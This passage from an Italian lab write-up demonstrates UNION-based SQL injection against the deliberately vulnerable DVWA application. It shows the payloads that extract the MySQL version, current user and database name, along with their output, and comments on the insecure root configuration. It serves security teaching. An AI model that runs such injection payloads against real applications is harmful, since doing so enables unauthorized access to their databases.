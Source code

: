 Abbiamo scoperto che la query SQL effettuata dall'applicazione seleziona due campi. Basandoci sull'output HTML ipotizziamo che si tratti di un nome e di un cognome. Proviamo ad iniettare all'interno della UNION un'interrogazione alle funzionalità di sistema offerte da MySQL. All'URL seguente è presente un elenco di query MySQL molto interessanti da questo punto di vista\footnote{\href{http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet}{http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet}}.

\vspace{5mm}

La funzione MySQL \texttt{version()} stampa il numero di versione del server MySQL in esecuzione. Proviamo ad iniettare \texttt{version()} in una UNION tramite l'input seguente:
\texttt{1' UNION select 1, version()\#}. Otteniamo la seguente risposta:
\begin{lstlisting}
ID: 1' union select 1, version()#
First name: admin
Surname: admin

ID: 1' union select 1, version()#
First name: 1
Surname: 5.1.41
\end{lstlisting}
Abbiamo scoperto che il server MySQL eseguito in DVWA è piuttosto datato (2010). Dando uno sguardo al servizio CVE Details, scopriamo ben 92 vulnerabilità per MySQL 5.1.41. La funzione MySQL \texttt{user()} stmpa lo username attuale e l'host da cui è partita la connessione SQL. Proviamo a iniettarlo tramite l'input seguente: \texttt{1' UNION select 1, user()\#}. Otteniamo la seguente risposta:
\begin{lstlisting}
ID: 1' union select 1, user()#
First name: admin
Surname: admin

ID: 1' union select 1, user()#
First name: 1
Surname: root@localhost
\end{lstlisting}
Scopriamo così che l'utente SQL usato dall'applicazione DVWA è root, inoltre il database è ospitato sullo stesso host dell'applicazione. Ciò è sbagliato: l'utente ha il massimo dei privilegi e inoltre web server e SQL server dovrebbero essere eseguite su macchine separate. La funzione MySQL \texttt{database()} stampa il nome del database usato nella connessione SQL. Proviamo a iniettarla in una UNION tramite l'input seguente:
\texttt{1' UNION select 1, database()\#}. Otteniamo questa risposta:
\begin{lstlisting}
ID: 1' union select 1, database()#
First name: admin
Surname: admin

ID: 1' union select 1, database()#
First name: 1
Surname: dvwa
\end{lstlisting}
